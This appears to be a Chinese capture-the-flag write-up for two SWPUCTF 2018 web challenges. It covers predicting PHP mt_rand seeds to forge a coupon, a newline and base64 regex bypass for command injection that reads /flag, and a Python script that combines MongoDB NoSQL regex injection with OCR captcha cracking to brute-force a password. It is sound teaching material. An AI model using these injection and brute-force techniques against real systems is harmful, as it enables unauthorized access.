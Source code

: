```yaml
---
title: SWPUCTF 2018 部分Web write up
date: 2018-12-23 10:17:17
tags:
    - web安全
    - CTF
---
```



## 用优惠劵买个X?


登录后给了一个优惠券，存在cookie的Auth里  
![](/img/swpu/1.png)  

在购买界面输入该优惠券返回说需要24位的优惠券。  
扫描目标站点发现有www.zip,下载打开发现source.php

```
<?php
//生成优惠码
$_SESSION['seed']=rand(0,999999999);
function youhuima(){
    mt_srand($_SESSION['seed']);
    $str_rand = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $auth='';
    $len=15;
    for ( $i = 0; $i < $len; $i++ ){
        if($i<=($len/2))
              $auth.=substr($str_rand,mt_rand(0, strlen($str_rand) - 1), 1);
        else
              $auth.=substr($str_rand,(mt_rand(0, strlen($str_rand) - 1))*-1, 1);
    }
    setcookie('Auth', $auth);
}
//support
    if (preg_match("/^\d+\.\d+\.\d+\.\d+$/im",$ip)){
        if (!preg_match("/\?|flag|}|cat|echo|\*/i",$ip)){
               //执行命令
        }else {
              //flag字段和某些字符被过滤!
        }
    }else{
             // 你的输入不正确!
    }
?>
```

判断需要利用PHP伪随机预测出24位的优惠码，利用了wonderkun的博客里介绍的方法和脚本。  
首先根据源码构造脚本如下，计算出每次的mt_rand()的值，并且按照工具php_mt_seed的参数要求打印。这里要注意的是，不同版本的PHP在执行mt_rand()会有不同，而根据网页的响应头得知服务器版本为7.2.9，因此在执行下面的脚本时也需要使用7.2版本的PHP。

```
<?php
$str="HNzlZc7wgMWEfWN";
$str_rand = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
for($i=0;$i<15;$i++){
  if($i<=(15/2)){
    $pos=strpos($str_rand,$str[$i]);  
    echo $pos." ".$pos." 0 ".(strlen($str_rand)-1)." ";
  }               
  else{
    $pos = strlen($str_rand)-strpos($randstr,$str[$i]);
    echo $pos." ".$pos." 0 ".(strlen($str_rand)-1);
  }
}
?>
```

接着使用php_mt_seed爆破出结果
![](/img/swpu/2.png)  

放入原脚本中，并且加入代码mt_srand(506450967),并把优惠券长度改为24位，即可得到24位的优惠券。

![](/img/swpu/3.png)  

输入会显示购买成功，然后就来到第二个页面，要求输入ip。观察源码，需要绕过两个正则，第一个正则有/m参数，即在每个换行符前后进行句首(^)句尾($)匹配，匹配成功一次即可返回正确，利用%0a可以绕过。第二个正则可以利用base64编码绕过。让服务器执行cat /flag即可  
![](/img/swpu/44.png)

## injection ???

测试sql注入不成功，在F12里看到有info.php，打开后是phpinfo，在里面看到开启了mongodb,猜测为NoSQL注入，测试?username[\$ne]=123&password[\$ne]=123发现成功注入，但是回显不是正确的密码，猜测需要注入得到正确的密码。利用[\$regex]配合^可以一位一位的得到正确的密码。该页面登录需要验证码，使用pytesseract库进行破解。构造脚本如下

```
import pytesseract
import requests,string
from PIL import Image
import time 
s=requests.session()
passwd=''
for  j  in range(30):
    for i in string.printable:
        while True:
            time.sleep(1)
            r=s.get('http://123.206.213.66:45678/vertify.php')
            with open('yzm.jpg','wb') as f:
                f.write(r.content)
            cap=pytesseract.image_to_string(Image.open('yzm.jpg'))
            url='http://123.206.213.66:45678/check.php?username[$ne]=123&password[$regex]=^{}&vertify={}'
            print(url.format(passwd+i,cap))
            r=s.get(url.format(passwd+i,cap))
            print(r.text)
            if not 'wrong' in r.text:
                break
        if 'Nice'  in r.text:
            passwd+=i
            print(passwd)
            break
```

即可得到正确的密码，登录即可getflag。






